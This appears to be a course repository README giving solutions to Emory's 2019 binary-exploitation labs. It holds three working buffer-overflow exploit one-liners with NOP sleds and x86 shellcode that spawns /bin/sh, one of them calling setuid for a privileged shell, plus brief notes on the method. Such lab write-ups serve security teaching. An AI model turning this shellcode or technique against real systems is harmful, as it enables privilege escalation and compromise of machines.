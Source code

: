 # Emory Fall 2019: CS453: Cybersecurity

The labs are on platform.adversary.io. They consisted of binary bombs, web exploit exercises, and binary exploits.
This folder only contains the binary exploit puzzles and their solutions.

## Overflow 1

Solution:  
./overflow aaaabbbbccccdddd$(perl -e 'print "\x48\x43\x4b\x52"')  
Pretty standard overflow: just had to input the location for secret after filling up the buffer.


## Overflow 2

Solution:  
./overflow2 $(perl -e 'print "\x90" x (256-40)')$(perl -e 'print "\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x43" ')AAAAAAAAAAAA$(perl -e 'print "\xe8\xd4\xff\xff"')  
The idea is to fill up the buffer, leaving 40 bytes of room for the shellcode. Then, overwrite the ebp, and return into the buffer. Some extra padding was used for stack alignment. 

## Chained Overflow
Solution:  
echo $(perl -e 'printf "\x11" x 4')$(perl -e 'print "\x90" x 3812')$(perl -e 'print "\x90" x (256-55)')$(printf "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x45")$(printf "\x97\x6c\x6c\xe8\xd4\xff\xff") > temp.hex  
cat temp.hex - | ./overflow RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08")
This was a tedious one.  
- Step 1: Bypass the first comparison by filling it with hex characters such that the first 10 characters spell RUSHKEKEKE and the sum of the hex representation of RUSHKEKEKE and the subsequent 14 characters divide 256. 
- Step 2: Edit the shellcode so that it runs setuid (getuid, getuid), otherwise the shell won't spawn with privileges (I realized this in hindsight after spawning a useless shell).
- Step 3: The size of the buffer is not show in the code, so I had to use gdb to find the size of the buffer which turned out to be 4068. Fill the buffer with the shellcode and some extra padding to also make sure that the sum of the hex characters in the buffer is divisible by 256. 
- Step 4: Hold the door open by piping in the shellcode + nopsled with '-' so that the keyboard remains interactive and end of input is not reached. If end of input is reached, shell instantly closes. 

## 
